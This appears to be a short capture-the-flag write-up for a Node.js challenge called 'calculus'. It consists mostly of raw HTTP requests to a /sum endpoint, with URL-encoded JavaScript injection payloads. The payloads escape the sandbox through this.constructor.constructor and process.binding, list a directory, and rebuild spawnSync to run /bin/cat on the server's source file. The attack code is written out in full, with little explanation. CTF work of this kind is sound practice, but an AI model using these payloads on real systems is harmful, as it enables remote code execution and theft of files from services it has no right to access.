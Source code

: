 #Task: calculus

#Description:

Help me solve some equations and get the flag!

Flag format: CTF{sha256}


#readdir
GET /sum?b=&a=1,2);this.constructor.constructor('return+this.process.binding')()('fs').readdir('/home/ctf',+{},+"","",+function+(err,+data)+{data})//


#cat flag
#cat server.js
GET /sum?b=&a=1,2);this.constructor.constructor('spawn_sync%3dprocess.binding("spawn_sync")%3bnormalizeSpawnArguments%3dfunction(c,b,a){if(Array.isArray(b)%3fb%3db.slice(0)%3a(a%3db,b%3d[]),a%3d%3d%3dundefined%26%26(a%3d{}),a%3dObject.assign({},a),a.shell){const+g%3d[c].concat(b).join("%20")%3btypeof+a.shell%3d%3d%3d"string"%3fc%3da.shell%3ac%3d"/bin/bash+/bin/ls",b%3d["-c",g]%3b}typeof+a.argv0%3d%3d%3d"string"%3fb.unshift(a.argv0)%3ab.unshift(c)%3bvar+d%3da.env||process.env%3bvar+e%3d[]%3bfor(var+f+in+d)e.push(f%2b"%3d"%2bd[f])%3breturn{file%3ac,args%3ab,options%3aa,envPairs%3ae}%3b};spawnSync=function(){var+d%3dnormalizeSpawnArguments.apply(null,arguments)%3bvar+a%3dd.options%3bvar+c%3bif(a.file%3dd.file,a.args%3dd.args,a.envPairs%3dd.envPairs,a.stdio%3d[{type%3a"pipe",readable%3a!0,writable%3a!1},{type%3a"pipe",readable%3a!1,writable%3a!0},{type%3a"pipe",readable%3a!1,writable%3a!0}],a.input){var+g%3da.stdio[0]%3dutil._extend({},a.stdio[0])%3bg.input%3da.input%3b}for(c%3d0%3bc<a.stdio.length%3bc%2b%2b){var+e%3da.stdio[c]%26%26a.stdio[c].input%3bif(e!%3dnull){var+f%3da.stdio[c]%3dutil._extend({},a.stdio[c])%3bisUint8Array(e)%3ff.input%3de%3af.input%3dBuffer.from(e,a.encoding)%3b}}console.log(a)%3bvar+b%3dspawn_sync.spawn(a)%3bif(b.output%26%26a.encoding%26%26a.encoding!%3d%3d"buffer")for(c%3d0%3bc<b.output.length%3bc%2b%2b){if(!b.output[c])continue%3bb.output[c]%3db.output[c].toString(a.encoding)%3b}return+b.stdout%3db.output%26%26b.output[1],b.stderr%3db.output%26%26b.output[2],b.error%26%26(b.error%3d+b.error+%2b+"spawnSync+"%2bd.file,b.error.path%3dd.file,b.error.spawnargs%3dd.args.slice(1)),b%3b};return+spawnSync("/bin/cat",+["/home/ctf/server.js"])%3b')()// HTTP/1.1
Host: 34.141.31.183:30641
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1



![ScreenShot](creenshots/Screenshot 2021-08-29 at 14.59.03.png)
